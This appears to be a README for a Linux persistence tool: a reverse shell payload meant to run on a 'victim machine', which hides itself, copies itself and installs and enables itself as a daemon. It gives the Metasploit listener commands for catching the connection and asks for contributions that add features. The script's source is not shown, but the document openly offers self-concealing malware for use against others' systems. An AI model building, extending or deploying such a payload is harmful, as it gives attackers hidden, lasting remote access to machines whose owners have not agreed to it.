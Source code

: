 # Persistant shell

## Information

This is a reverse shell script written for Linux. The reverse shell itself is a basic one-liner, but the script is to try and persistently make a connection, while trying to hide and make copies of itself. The script also makes itself a Daemon and enables itself.

## Usage

This script is a payload that it supposed to run on the victim machine.

The shell retains the user that creates this file on the victim machine.

I tried with basic netcat but the connection is not stable because the shell being created is from a service. To run properly use the following Metasploit module/commands:

```
msf6> use payload/linux/x64/shell/reverse_tcp
msf6> set LHOST eth1 #Or whatever your network interface is called
msf6> exploit
```

Once the connection is established, connect with the following command:
```
msf6> sessions [session number]
```

### **PS. First connection is dropped and then the next connection will connect. Patience is required.**

## To Contribute

You can add for functions to the script and increase the different things the script can do. 
